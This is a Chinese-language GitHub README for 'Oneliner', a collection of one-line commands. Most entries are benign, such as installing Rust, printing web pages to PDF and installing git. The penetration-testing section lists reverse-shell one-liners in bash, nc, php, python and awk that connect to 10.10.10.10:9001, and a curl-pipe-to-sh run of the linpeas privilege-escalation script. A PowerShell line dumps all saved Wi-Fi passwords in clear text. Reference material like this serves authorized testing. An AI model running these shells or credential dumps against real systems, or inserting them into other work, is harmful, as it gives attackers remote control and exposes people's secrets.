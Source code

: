# Oneliner
---
这是一个 包含了 只需要一行 instruction sequence 即可完成目标的 仓库.

将每一条记录称为 liner

这个仓库 涵盖了很多方面 如下载 安装 POC验证 EXP利用 等.

仓库遵循 content first 原则.

由于项目的特殊性, 参加项目请使用issue 来提供您的 liner

格式要求
````
## category <!-- 分类, 也是liner的 头部 --> <!-- 由管理员 识别并合并 -->
### title
> ***<date YY-mm-dd>: <author|mail>***
[> **<description>**] <!-- 描述信息 -->
```lang <!-- 该部分可有多个 -->
instruction
```
--- <!-- 当前liner的 分割线 也是尾部 -->
````
## 目录
* [Rust](#rust)
  * [Linux安装Rust环境](#linux安装rust环境)
* [渗透测试](#渗透测试)
  * [Linpeas.sh枚举提权信息](#linpeassh枚举提权信息)
  * [反弹shell合集](#反弹shell合集)
* [xxx2pdf](#xxx2pdf)
  * [freebuf2pdf](#freebuf2pdf)
  * [csdn2pdf](#csdn2pdf)
  * [wechat2pdf](#wechat2pdf)
* [WIFI](#wifi)
  * [powershell获取密码](#powershell获取密码)

<!-- 列表头 -->
## Rust
### Linux安装Rust环境
> ***2024-6-25: fb0sh***
```bash
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
```
> **(中国区环境)**
```bash
export RUSTUP_DIST_SERVER="https://rsproxy.cn";export RUSTUP_UPDATE_ROOT="https://rsproxy.cn/rustup";curl --proto '=https' --tlsv1.2 -sSf https://rsproxy.cn/rustup-init.sh | sh
```
---


## 渗透测试
### Linpeas.sh枚举提权信息
> ***2024-6-25: fb0sh***
```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```
> **python2**
```bash
python -c "import urllib.request; urllib.request.urlretrieve('https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh', 'linpeas.sh')"
```
> **python3**
```bash
python3 -c "import urllib.request; urllib.request.urlretrieve('https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh', 'linpeas.sh')"
```
--- 

### 反弹shell合集
> ***2024-6-25: fb0sh***

> **bash**
```bash
/bin/bash -i >& /dev/tcp/10.10.10.10/9001 0>&1
```
> **nc**
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.10.10 9001 >/tmp/f
```
```bash
nc 10.10.10.10 9001 -e /bin/bash
```
> **php**
```php
php -r '$sock=fsockopen("10.10.10.10",9001);popen("/bin/bash <&3 >&3 2>&3", "r");'
```
> **python**
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
```python3
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.10.10",9001));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'
```
> **awk**
```bash
awk 'BEGIN {s = "/inet/tcp/0/10.10.10.10/9001"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```
--- 

### xxx2pdf
> 打开浏览器控制台后粘贴js代码
### freebuf2pdf
> ***2024-6-28: fb0sh***
```js
["articles-layout-header ant-layout-header", "page-header", "ant-layout-footer","floating-view", "aside-left", "aside-right", "remix-module","introduce"].forEach(c => document.getElementsByClassName(c)[0].remove());document.getElementsByClassName("main")[0].setAttribute("style","width:100%");window.print();
```
---
### csdn2pdf
> ***2024-6-28: fb0sh***
```js
["toolbarBox", "rightAside", "pcCommentBox", "recommendNps", "toolBarBox"].forEach(i => document.getElementById(i).remove());["blog_container_aside", "recommend-box", "blog-footer-bottom", "csdn-side-toolbar"].forEach(c => document.getElementsByClassName(c)[0].remove());document.querySelectorAll("main")[0].setAttribute("style","width:95");window.print();
```
---
### wechat2pdf
> ***2024-6-28: fb0sh***

> **也可直接使用edge快捷键Ctrl+P**
```js
window.print();
```
---
## WIFI
### powershell获取密码
> ***2024-7-1: fb0sh***

> 请放入powershell里
```powershell
$language=(Get-Culture).Name;if($language -eq "zh-CN"){$profileRegex="\s所有用户配置文件\s*:\s*(.*)$";$keyContentRegex="关键内容\s*:\s*(.*)$"}else{$profileRegex="\sAll User Profile\s*:\s*(.*)$";$keyContentRegex="Key Content\s*:\s*(.*)$"};$results=@();$profiles=netsh wlan show profiles|Select-String $profileRegex|ForEach-Object {$_.Matches[0].Groups[1].Value.Trim()};foreach($profile in $profiles){$profileInfo=netsh wlan show profile name="$profile" key=clear;$passwordMatch=$profileInfo|Select-String $keyContentRegex;$password=if($passwordMatch){$passwordMatch.Matches[0].Groups[1].Value.Trim()}else{"No Password Found"};$results+=[PSCustomObject]@{SSID=$profile;Password=$password}};$results|Format-Table -AutoSize
```
## GIT
### winget安装git
> ***2024-7-4: fb0sh***
```powershell
winget install --id Git.Git -e --source winget
```
---

## Python 小段代码
### python 0 填充
> ***2024-7-17: fb0sh***
```python
res=[f"{i:03}" for i in range(100)]
```
---
<!-- 列表尾 -->
